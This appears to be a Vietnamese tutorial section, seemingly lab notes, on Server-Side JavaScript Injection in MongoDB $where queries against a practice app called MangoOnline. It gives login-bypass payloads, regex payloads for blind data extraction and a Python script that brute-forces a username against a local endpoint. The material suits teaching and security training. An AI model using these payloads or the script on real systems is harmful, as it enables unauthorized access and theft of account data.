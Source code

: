 # 7. Khai thác Server-Side JavaScript Injection (SSJI) trong MangoOnline

1. **Lý thuyết về Server-Side JavaScript Injection**:
   - **JavaScript Injection** là loại tấn công đặc trưng trong NoSQL, trong đó kẻ tấn công có thể thực thi JavaScript tùy ý trên máy chủ trong ngữ cảnh của cơ sở dữ liệu.
   - Với SSJI, nếu ứng dụng sử dụng `$where` trong truy vấn MongoDB mà không kiểm tra đầu vào, kẻ tấn công có thể lợi dụng để bỏ qua xác thực hoặc thao tác với dữ liệu theo ý muốn.
   
   **Ví dụ**:
   ```javascript
   db.users.find({
       $where: "this.username == \"" + req.body['username'] + "\" && this.password == \"" + req.body['password'] + "\""
   });
   ```
   - Trong trường hợp này, kẻ tấn công có thể chèn `" || ""==""` vào `username` và `password`, để truy vấn luôn trả về `True` và trả về mọi tài liệu trong `users`.

2. **Bỏ qua xác thực trong MangoOnline**:
   - Trang MangoOnline chỉ có một biểu mẫu đăng nhập. Bằng cách gửi yêu cầu đăng nhập với `username` được đặt là `" || true || ""==""` và mật khẩu bất kỳ, truy vấn sẽ luôn trả về `True`.
   
   **Truy vấn bị khai thác**:
   ```javascript
   db.users.find({
       $where: 'this.username === "" || true || ""=="" && this.password === "<password>"'
   });
   ```
   - Điều này dẫn đến kết quả: đăng nhập thành công mà không cần biết thông tin đăng nhập chính xác.

3. **Khai thác Blind Data Extraction với SSJI**:
   - Mặc dù bỏ qua xác thực, ứng dụng không hiển thị `username` của tài khoản đăng nhập thành công. Để trích xuất `username`, ta có thể thực hiện các bước như **Blind Data Extraction** đã nêu, nhưng sử dụng cú pháp SSJI khác.

4. **Tự động trích xuất `username`**:
   - **Kiểm tra ký tự đầu tiên**:
     - Bắt đầu với truy vấn `username` để kiểm tra ký tự đầu tiên là gì. Sử dụng `" || (this.username.match('^H.*')) || ""=="` để xác nhận `username` bắt đầu bằng `H`.
   - **Tiếp tục dò ký tự tiếp theo**:
     - Lặp lại quy trình bằng cách thêm từng ký tự vào regex và dò dần `username` cho đến khi thu được chuỗi đầy đủ.
   
   **Mẫu script tự động hóa dò tìm**:
   ```python
   import requests
   import json

   # Hàm gửi yêu cầu để kiểm tra điều kiện SSJI
   def oracle(payload):
       r = requests.post(
           "http://127.0.0.1/index.php",
           headers={"Content-Type": "application/json"},
           data=json.dumps({"username": payload, "password": "anyPassword"})
       )
       return "Welcome" in r.text  # Giả sử phản hồi chứa "Welcome" khi đăng nhập thành công

   # Tự động dò tìm username
   username = ""
   for _ in range(10):  # Giả sử username dài 10 ký tự
       for c in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ":
           payload = f'" || (this.username.match("^{username}{c}.*")) || ""=="'
           if oracle(payload):
               username += c
               print("Current username:", username)
   ```